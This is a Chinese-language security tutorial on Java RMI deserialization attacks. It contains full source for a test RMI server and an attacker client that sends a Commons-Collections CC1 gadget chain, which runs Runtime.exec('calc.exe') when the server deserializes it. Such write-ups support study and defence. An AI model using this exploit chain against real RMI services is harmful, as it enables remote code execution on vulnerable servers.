 之前已经接触过RMI了,不过之前主要是了解的远程方法调用,对RMI的反序列化并不是很清楚

其实RMI反序列化和普通的反序列化相差不大,只是因为RMI在通信的时候是以序列化流传输的

既然有序列化那就有反序列化,RMI的反序列化和普通的反序列化就多了一个RMI通信的过程

**RMI反序列化的特点**

- RMI提供的数据有Object类型（因为攻击payload就是Object类型）
- 能够进行RMI通信
- 目标服务器引用了第三方存在反序列化漏洞的jar包

直接用一个CC1的例子来说明RMI反序列化吧

先起一个RMI服务（受害者）

```
package RMIunser;

import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.UnicastRemoteObject;

public class Server {

    public interface User extends Remote {
        public String name(String name) throws RemoteException;
        public void say(String say) throws RemoteException;
        public void Example(Object work) throws RemoteException;
    }

    public static class UserImpl extends UnicastRemoteObject implements User{

        protected UserImpl() throws RemoteException{
            super();
        }
        public String name(String name) throws RemoteException{
            return name;
        }
        public void say(String say) throws  RemoteException{
            System.out.println("you speak" + say);
        }
        public void Example(Object example) throws  RemoteException{
            System.out.println("This is " + example);
        }
    }

    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        UserImpl user = new UserImpl();
        LocateRegistry.createRegistry(1099);
        Naming.bind(url,user);
        System.out.println("RMI server is running");
    }
}
```

还是和RMI的定义一样,先定义接口然后再定义实现类,并且都要抛出相应的异常,最后绑定RMI服务端口

因为是对CC1进行复现,所以要选择8u71一下的jdk版本

接下来就是客户端也就是攻击者

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import RMIunser.Server.User;

public class Client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/User";
        User userClient = (User)Naming.lookup(url);

        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.Example(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```

与服务端的RMI服务进行通信,调用其中带Object数据类型参数的方法,然后在反序列化的时候就会执行payload

![image-20220209132629222](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220209132629222.png)



其实RMI反序列化就是将RMI服务器当成一个readObject的点就可以了

具体的RMI通信过程可以通过wireshark抓取流量包来观察,可以在这篇先知上看到,P牛的java漫谈也有



参考链接

https://xz.aliyun.com/t/6660#toc-6

http://1.15.187.227/index.php/archives/497/
